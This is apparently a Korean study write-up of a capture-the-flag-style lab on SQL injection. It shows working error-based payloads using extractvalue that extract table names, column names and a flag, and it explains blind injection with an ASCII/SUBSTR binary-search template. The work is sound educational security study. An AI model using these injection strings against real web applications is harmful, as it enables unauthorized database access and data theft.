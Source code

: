 테이블명 : `normaltic' AND extractvalue(1, concat(0x3a, (SELECT table_name FROM information_schema.tables WHERE table_schema = 'errSqli' LIMIT 0,1))) AND '1'='1`

<img width="1411" alt="Image" src="https://github.com/user-attachments/assets/94886f20-9f25-45f7-a702-6a8abe046578" />

컬럼명 : `normaltic' AND extractvalue(1, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='plusFlag_Table' LIMIT 0,1))) AND '1'='1`

<img width="1408" alt="Image" src="https://github.com/user-attachments/assets/c4634a70-1c73-4037-a741-71c7189448de" />

데이터 출력 : `nomaltic' AND extractvalue(1, concat(0x3a, (SELECT flag FROM plusFlag_Table LIMIT 0,1))) AND '1'='1`
<img width="1404" alt="Image" src="https://github.com/user-attachments/assets/6b49b24b-3785-45a7-aa7d-c95f90763ef9" />

### 자동화 코드 

<details><summary> 자동화 코드</summary></details> 
<br>
<img width="535" alt="Image" src="https://github.com/user-attachments/assets/ee2a2a17-575e-4966-91a0-839198e3fde9" />

## Blind SQL Injection 

### Blind SQL Injection 
Blind SQL Injection은 응답에 직접적인 SQL 에러나 결과가 표시되지 않는 경우에도,
**"응답의 변화"**를 기반으로 데이터베이스의 정보를 간접적으로 추론하는 공격입니다.

<img width="1409" alt="Image" src="https://github.com/user-attachments/assets/970a81cf-5936-4614-b3cd-9b8cc306fcdf" />

### 핵심 함수 정리
| 함수                  | 설명          | 예시                                           |
| ------------------- | ----------- | -------------------------------------------- |
| `SUBSTR(str, i, 1)` | i번째 문자 추출   | `SUBSTR('test',1,1)` → `'t'`                 |
| `ASCII(char)`       | 문자를 아스키 숫자로 | `ASCII('a') = 97`                            |
| 비교연산                | 크기 비교 가능    | `' AND ASCII(SUBSTR((SELECT db),1,1)) > 100` |


### 공격 포맷
```sql
normaltic' AND ASCII(SUBSTR((__SQL__), 1, 1)) > 100 AND '1'='1
```
문자 하나를 알아낼 때 "업다운 게임" 하듯이 ASCII 값을 이진 탐색하면 효율적입니다
- 예: 데이터베이스 이름의 첫 글자가 'e'인지 알아내기 위한 흐름

```sql 
AND ASCII(SUBSTR((SELECT database()), 1, 1)) > 100 -- 참? → 더 위
AND ASCII(SUBSTR((SELECT database()), 1, 1)) < 110 -- 참? → 더 아래
→ 최종적으로 'e'(101) 도출
```
